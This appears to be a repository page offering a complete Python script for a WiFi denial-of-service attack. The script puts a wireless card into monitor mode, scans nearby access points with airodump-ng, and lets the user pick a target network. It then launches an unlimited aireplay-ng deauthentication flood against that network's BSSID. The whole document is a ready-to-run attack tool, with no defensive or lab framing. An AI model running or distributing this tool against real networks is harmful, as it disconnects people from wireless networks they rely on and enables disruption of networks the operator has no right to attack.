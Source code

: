 # dos
Attaque DoS (déni de service) WiFi Python
#!/usr/bin/env python3

import subprocess
import re
import csv
import os
import time
import shutil
from datetime import datetime

def display_banner():
    print(r"""ADEM""")
    print("\n****************************************************************")
    print("* Refactored Version for Structure Change Only                *")
    print("****************************************************************")

def ensure_sudo():
    if 'SUDO_UID' not in os.environ:
        print("Error: Please run this program with sudo.")
        exit()

def clean_csv_files():
    backup_dir = os.path.join(os.getcwd(), "backup")
    os.makedirs(backup_dir, exist_ok=True)
    for file in os.listdir():
        if file.endswith(".csv"):
            timestamp = datetime.now().strftime("%Y%m%d-%H%M%S")
            print(f"Moving existing CSV: {file} -> backup/{timestamp}-{file}")
            shutil.move(file, os.path.join(backup_dir, f"{timestamp}-{file}"))

def get_wifi_interfaces():
    result = subprocess.run(["iwconfig"], capture_output=True).stdout.decode()
    return re.findall(r"^wlan[0-9]+", result, re.MULTILINE)

def select_interface(interfaces):
    print("Available wireless interfaces:")
    for i, iface in enumerate(interfaces):
        print(f"{i}: {iface}")
    while True:
        try:
            selection = int(input("Select interface: "))
            return interfaces[selection]
        except (ValueError, IndexError):
            print("Invalid selection. Try again.")

def kill_conflicting_procs():
    print("Killing conflicting processes...")
    subprocess.run(["airmon-ng", "check", "kill"])

def enable_monitor_mode(interface):
    print(f"Enabling monitor mode on {interface}...")
    subprocess.run(["airmon-ng", "start", interface])

def scan_networks(interface):
    print("Starting airodump-ng scan...")
    return subprocess.Popen(["airodump-ng", "-w", "scan_output", "--write-interval", "1", "--output-format", "csv", interface],
                            stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)

def parse_networks():
    networks = []
    seen_essids = set()
    for file in os.listdir():
        if file.endswith(".csv"):
            with open(file) as f:
                reader = csv.DictReader(f, fieldnames=[
                    'BSSID', 'First_time_seen', 'Last_time_seen', 'channel', 'Speed', 'Privacy', 'Cipher',
                    'Authentication', 'Power', 'beacons', 'IV', 'LAN_IP', 'ID_length', 'ESSID', 'Key'
                ])
                for row in reader:
                    bssid = row.get("BSSID")
                    essid = row.get("ESSID")
                    if bssid in ["BSSID", "Station MAC"] or not essid or essid in seen_essids:
                        continue
                    networks.append(row)
                    seen_essids.add(essid)
    return networks

def display_networks(networks):
    print("\nScanning... Press Ctrl+C to stop and choose a target.\n")
    print("ID\tBSSID\t\t\tChannel\tESSID")
    print("--\t-------------------\t-------\t------------------------")
    for i, net in enumerate(networks):
        print(f"{i}\t{net['BSSID']}\t{net['channel'].strip()}\t{net['ESSID']}")

def choose_network(networks):
    while True:
        try:
            choice = int(input("Select target network: "))
            return networks[choice]
        except (ValueError, IndexError):
            print("Invalid choice. Try again.")

def set_target_channel(interface, channel):
    subprocess.run(["airmon-ng", "start", interface, channel])

def start_deauth_attack(target_bssid, interface):
    print(f"Starting deauth attack on {target_bssid} via {interface}")
    subprocess.run(["aireplay-ng", "--deauth", "0", "-a", target_bssid, interface])

def main():
    display_banner()
    ensure_sudo()
    clean_csv_files()

    interfaces = get_wifi_interfaces()
    if not interfaces:
        print("No wireless interfaces found.")
        exit()

    selected_iface = select_interface(interfaces)
    kill_conflicting_procs()
    enable_monitor_mode(selected_iface)

    monitor_iface = selected_iface + "mon"
    scan_process = scan_networks(monitor_iface)

    networks_found = []
    try:
        while True:
            subprocess.call("clear", shell=True)
            networks_found = parse_networks()
            display_networks(networks_found)
            time.sleep(1)
    except KeyboardInterrupt:
        print("\nScan stopped. Proceeding to selection...")

    target = choose_network(networks_found)
    bssid = target["BSSID"]
    channel = target["channel"].strip()

    set_target_channel(monitor_iface, channel)
    start_deauth_attack(bssid, monitor_iface)

if __name__ == "__main__":
    main()
